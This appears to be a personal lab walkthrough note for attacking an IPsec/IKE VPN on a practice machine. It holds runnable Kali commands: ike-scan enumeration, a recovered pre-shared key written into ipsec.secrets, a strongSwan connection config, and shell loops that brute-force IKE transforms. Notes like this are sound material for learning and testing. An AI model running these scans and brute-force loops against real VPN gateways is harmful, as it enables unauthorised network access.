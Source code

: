 ```yaml
---
category: Uncategorized
tags: []
---
```

https://book.hacktricks.xyz/pentesting/ipsec-ike-vpn-pentesting

```bash - kali
ike-scan -M $TARGET
```

![[Pasted image 20220125181008.png | 1200]]

![[Pasted image 20220125182150.png | 1200]]

```bash - kali
echo -n 9C8B1A372B1878851BE2C097031B6E43 | wc -c
```

![[Pasted image 20220125182347.png | 1200]]

```bash - kali
sudo apt install strongswan -y
```

```bash - kali
echo '$TARGET : PSK "Dudecake1!"' >> /etc/ipsec.secrets
```

![[Pasted image 20220125182910.png | 1200]]

```bash - kali
sudo mousepad /etc/ipsec.conf
```

```bash - kali
conn Conceal
	type=transport
	keyexchange=ikev1
	right=$TARGET
	authby=psk
	rightprotoport=tcp
	leftprotoport=tcp
	esp=3des-sha1
	ike=3des-sha1-modp1024
	auto=start
```

```bash - kali
sudo ipsec stop
```

```bash - kali
sudo ipsec start --nofork
```

```bash - kali
nmap -p- -sT $TARGET
```

---

```bash - kali
for ENC in 1 2 3 4 5 6 7/128 7/192 7/256 8; do for HASH in 1 2 3 4 5 6; do for AUTH in 1 2 3 4 5 6 7 8 64221 64222 64223 64224 65001 65002 65003 65004 65005 65006 65007 65008 65009 65010; do for GROUP in 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18; do echo "--trans=$ENC,$HASH,$AUTH,$GROUP" >> ike-dict.txt ;done ;done ;done ;done
```

And then brute-force each one using ike-scan (this can take several minutes):

```bash - kali
while read line; do (echo "Valid trans found: $line" && sudo ike-scan -M $line $TARGET) | grep -B14 "1 returned handshake" | grep "Valid trans found" ; done < ike-dict.txt
```

If the brute-force didn't work, maybe the server is responding without handshakes even to valid transforms. Then, you could try the same brute-force but using aggressive mode:

```bash - kali
while read line; do (echo "Valid trans found: $line" && ike-scan -M --aggressive -P handshake.txt $line $TARGET) | grep -B7 "SA=" | grep "Valid trans found" ; done < ike-dict.txt
```

Hopefully a valid transformation is echoed back. You can try the same attack using https://github.com/isaudits/scripts/blob/master/iker.py

ou could also try to brute force transformations with https://github.com/SpiderLabs/ikeforce

```bash - kali
./ikeforce.py $TARGET # No parameters are required for scan -h for additional help
```
